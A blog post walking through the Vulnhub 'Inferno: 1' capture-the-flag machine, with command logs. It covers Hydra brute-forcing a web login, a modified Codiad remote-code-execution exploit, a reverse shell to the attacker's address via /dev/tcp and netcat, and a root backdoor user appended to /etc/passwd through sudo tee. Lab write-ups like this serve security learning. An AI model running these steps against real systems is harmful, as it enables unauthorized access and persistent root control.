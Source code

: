 ```yaml
---
layout: post
title:  "Vulnhub - INFERNO: 1"
date:   2020-12-04 23:00:00 +1100
category: hacking
---
```


## Introduction
*Real Life machine vs CTF.*

*Midway upon the journey of our life I found myself within a forest dark,   
For the straightforward pathway had been lost.  
Ah me! how hard a thing it is to say  
What was this forest savage, rough, and stern,  
Which in the very thought renews the fear.*  

Sidenote: the quote above is from Inferno, Canto I by *Dante Alighieri*, part of the [Divine Comedy](https://en.wikipedia.org/wiki/Divine_Comedy). As I read it, it is basically the same as the introduction to one of my favourite Alkaline Trio songs, **I Found Away**:

*Midway on our life's journey, I found myself  
In dark woods, the right road lost. To tell  
About those woods is hard - so tangled and rough  
And savage that thinking of it now, I feel  
The old fear stirring....*

This is [Inferno: 1](https://www.vulnhub.com/entry/inferno-1,603/) from Vulnhub.

## Ports
This box was using port spoofing and reported having 1147 open ports. Yuck. I assumed there was a website; there was.

## HTTP
It doesn't take much gobusting to find our target; the directory we want is */inferno/*. It's protected by basic authentication, but we can Hydra that:

{% highlight shell %}
root@kali:/opt/vulnhub/inferno# hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt 192.168.1.152 http-get /inferno/
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-04 05:21:35
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://192.168.1.152:80/inferno/
[STATUS] 8009.00 tries/min, 8009 tries in 00:01h, 14336390 to do in 29:51h, 16 active
[80][http-get] host: 192.168.1.152   login: admin   password: dante1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-04 05:23:29
{% endhighlight %}

## Codiad
The site is running [Codiad](http://codiad.com/), a sort of in browser IDE that I hadn't seen before. It looks pretty neat but it's now [unmaintained](https://github.com/Codiad/Codiad) and there is an [exploit](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit) available. 

I had to make a few changes to the exploit code it get it running, which was mostly adding the basic authentication header to the network calls; there were three of them. As an example, this is what the *get_write_able_path* function became:

{% highlight python %}
def get_write_able_path(domain):
    global session
    url = domain + "/components/project/controller.php?action=get_current"
    headers = {
        "Authorization": "Basic YWRtaW46ZGFudGUx"
    }
    response = session.get(url, verify=False, headers=headers)
    content = response.content
    print "[+] Path Content : %s" % (content)
    json_obj = json.loads(content)
    # print(json_obj) # debug
    if json_obj['status'] == "success":
        return json_obj['data']['path']
    else:
        return False
{% endhighlight %}

And once the code modifications were made, we could get a shell:

{% highlight shell %}
root@kali:/opt/vulnhub/inferno# ./exploit.py http://192.168.1.152/inferno admin dante1 192.168.1.150 1234 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/192.168.1.150/1235 0>&1 2>&1"' | nc -lnvp 1234
nc -lnvp 1235
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"admin"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"inferno","path":"\/var\/www\/html\/inferno"}}
[+] Writeable Path : /var/www/html/inferno
[+] Sending payload...
http://192.168.1.152/inferno/components/filemanager/controller.php?type=1&action=search&path=/var/www/html/inferno
{% endhighlight %}

## Shell
After that I was on the box as *www-data*, and we only had one user with a home directory - *dante*. He's got a file we can read:

{% highlight shell %}
www-data@Inferno:/home/dante/Downloads$ file download.dat
file download.dat
download.dat: ASCII text, with very long lines, with no line terminators
4.0K -rw-r--r--  1 www-data www-data 1.5K Nov  3 11:52 download.dat
{% endhighlight %}

This is a space-delimited hex encoded file that contains some verse, and some creds:

>dante:V1rg1l10h3lpm3

## SSH + Privesc
Remember the port spoofing and how I got lucky with the webserver on port 80? Well, SSH was on the standard port too, and *dante* had sudo access to **tee**. tee reads from standard input and writes to a file, so I added my favourite *root2* user with the password *mrcake* to */etc/passwd*. This is slightly different to what GTFOBins suggested, but the concept is the same. Enjoy:

{% highlight shell %}
root@kali:/opt/vulnhub/inferno# ssh dante@192.168.1.152
The authenticity of host '192.168.1.152 (192.168.1.152)' cant be established.
ECDSA key fingerprint is SHA256:5eMSIG2JrA2xEfQlgC7P3KruDMWuL5zBOhcYqj1nefg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.152' (ECDSA) to the list of known hosts.
dante@192.168.1.152 password: 
Linux Inferno 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Nov 17 07:45:38 2020 from 10.1.3.27
dante@Inferno:~$ sudo -l
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /bin/tee
dante@Inferno:~$ sudo -u root /bin/tee -a /etc/passwd
root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash
root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash
dante@Inferno:~$ su root2
Password: 
root@Inferno:/home/dante# cd /root
root@Inferno:~# ls
proof.txt
root@Inferno:~# cat proof.txt 

ASCII ART REMOVED

Congrats!

Youve rooted Inferno!
{% endhighlight %}

Thanks [mindsflee](https://www.hackthebox.eu/profile/232477).
